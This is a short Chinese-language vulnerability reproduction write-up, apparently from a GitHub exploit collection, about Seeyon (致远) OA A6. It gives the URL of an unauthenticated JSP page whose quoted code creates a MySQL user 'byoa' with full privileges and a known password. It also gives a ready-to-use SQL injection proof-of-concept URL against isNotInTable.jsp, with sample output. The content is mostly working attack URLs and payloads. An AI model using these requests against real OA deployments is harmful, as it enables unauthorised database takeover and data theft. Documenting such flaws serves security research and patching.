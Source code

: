 # 致远OA A6 重置数据库账号密码漏洞

### 一、漏洞简介

### 二、漏洞影响

致远OA A6

### 三、复现过程

重置数据库账号密码防御


```bash
http://url/yyoa/ext/byoa/start.jsp
```

该文件的代码为：


```java
<%  Connection conn = null; PreparedStatement pstmt = null; String sql = "create user byoa IDENTIFIED by 'byoa'";   try {       conn = null;//net.btdz.oa.common.ConnectionPoolBean.getConnection();        pstmt = conn.prepareStatement(sql);     out.print(pstmt.executeUpdate());       sql = "grant all on *.* to byoa";       pstmt = conn.prepareStatement(sql);     out.println(pstmt.executeUpdate());     pstmt.close();      sql = "update mysql.user set password=password('byoa') where user='byoa'";      pstmt = conn.prepareStatement(sql);     out.println(pstmt.executeUpdate());     pstmt.close();      sql = "flush privileges";       pstmt = conn.prepareStatement(sql);     out.print(pstmt.executeUpdate());       pstmt.close();      //conn.close(); } catch (Exception ex) {                    out.println(ex.getMessage());   }%>
```

可以抛光该文件没有验证任何权限，便进行了重置数据库用户byoa的密码为：byoa

**mysql + jsp注射**


```bash
http://url/yyoa/ext/trafaxserver/ExtnoManage/isNotInTable.jsp
```

poc


```bash
http://url/yyoa/ext/trafaxserver/ExtnoManage/isNotInTable.jsp?user_ids=(17) union all select user()%23{'success':false,'errors':'root@localhost'}
```